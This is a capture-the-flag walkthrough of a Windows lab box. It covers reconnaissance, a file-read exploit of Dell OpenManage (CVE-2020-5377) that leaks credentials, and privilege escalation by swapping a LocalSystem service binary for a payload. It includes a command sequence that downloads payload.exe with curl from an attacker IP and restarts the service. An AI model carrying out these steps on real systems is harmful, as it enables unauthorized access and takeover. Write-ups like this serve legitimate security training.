# Hacksmartersecurity

#Windows 
## Reconnaissance

I started running nmap and I got this following result.

```
$ nmap -p- -sV -sC 10.66.133.192
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-24 07:21 -0500
Nmap scan report for 10.66.133.192
Host is up (0.14s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
|_06-28-23  03:00PM              1022126 stolen-passport.png
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 0d:fa:da:de:c9:dd:99:8d:2e:8e:eb:3b:93:ff:e2:6c (RSA)
|   256 5d:0c:df:32:26:d3:71:a2:8e:6e:9a:1c:43:fc:1a:03 (ECDSA)
|_  256 c4:25:e7:09:d6:c9:d9:86:5f:6e:8a:8b:ec:13:4a:8b (ED25519)
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HackSmarterSec
1311/tcp open  ssl/rxmon?
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Tue, 24 Feb 2026 12:25:35 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage&trade;</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|     <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Tue, 24 Feb 2026 12:25:41 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage&trade;</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|_    <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
| ssl-cert: Subject: commonName=hacksmartersec/organizationName=Dell Inc/stateOrProvinceName=TX/countryName=US
| Not valid before: 2023-06-30T19:03:17
|_Not valid after:  2025-06-29T19:03:17
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-02-24T12:26:03+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HACKSMARTERSEC
|   NetBIOS_Domain_Name: HACKSMARTERSEC
|   NetBIOS_Computer_Name: HACKSMARTERSEC
|   DNS_Domain_Name: hacksmartersec
|   DNS_Computer_Name: hacksmartersec
|   Product_Version: 10.0.17763
|_  System_Time: 2026-02-24T12:25:58+00:00
| ssl-cert: Subject: commonName=hacksmartersec
| Not valid before: 2026-02-23T12:20:33
|_Not valid after:  2026-08-25T12:20:33
7680/tcp open  pando-pub?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1311-TCP:V=7.98%T=SSL%I=7%D=2/24%Time=699D98C0%P=x86_64-pc-linux-gn
```

By accessing FTP, I found a file `Credit-Cards-We-Pwned.txt` with some information, but nothing interesting.

<figure><figcaption></figcaption></figure>

To download a `.png` file, it needs to use `binary` command. But there is nothing important too.

<figure><figcaption></figcaption></figure>

By accessing port `1311` I got this page.

<figure><figcaption></figcaption></figure>

Accessing with HTTPS, we can see a login page.

<figure><figcaption></figcaption></figure>

## Enumeration

I was able to find the version of `Dell OpenManage Server Administrator`. 

<figure><figcaption></figcaption></figure>

Searching for public exploits, I found a `CVE 2020-5377`. It allows us to read a file from the server. We can confirm by reading `\etc\hosts` file.

<figure><figcaption></figcaption></figure>

By reading the file `/Windows/System32/inetsrv/Config/applicationHost.config`, we can confirm the path to try to read the `web.config` file.

<figure><figcaption></figcaption></figure>

## Shell as `Tyler`

By reading the `web.config` file, we got credentials for the user `tyler`.

<figure><figcaption></figcaption></figure>

I was able to login as Tyler using SSH.

<figure><figcaption></figcaption></figure>

I was able to read the `user.txt` flag. 

<figure><figcaption></figcaption></figure>
## Privilege Escalation

By running `PrivescCheck.ps1` script, I found an installed program Spoofer. It indicates that we can take advantage of this to escalate the privilege.

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

We can confirm accessing `Program Files (x86)` on `C:\`.

<figure><figcaption></figcaption></figure>

We can check the service and we can see that is running as `LocalSystem`.

<figure><figcaption></figcaption></figure>

Checking the version.

<figure><figcaption></figcaption></figure>

 We have full control over the service binary, we can replace it with a malicious executable. We can't use `msfvenom` due to Windows Defender running. We can create an executable that will add the `tyler` user to Administrators local group. Let's create a simple C code and compile it into an executable for Windows. 

<figure><figcaption></figcaption></figure>
Now we need to stop the service, replacing the service binary with our payload and starting it again.

```
sc stop spoofer-scheduler
move spoofer-scheduler.exe spoofer-scheduler.exe.bak
curl http://192.168.130.101:4444/payload.exe -o spoofer-scheduler.exe
sc start spoofer-scheduler
```

Now we need to re-login. We can see that now `tyler` is a member of the Administrators group.

<figure><figcaption></figcaption></figure>

Reading the final flag.

<figure><figcaption></figcaption></figure>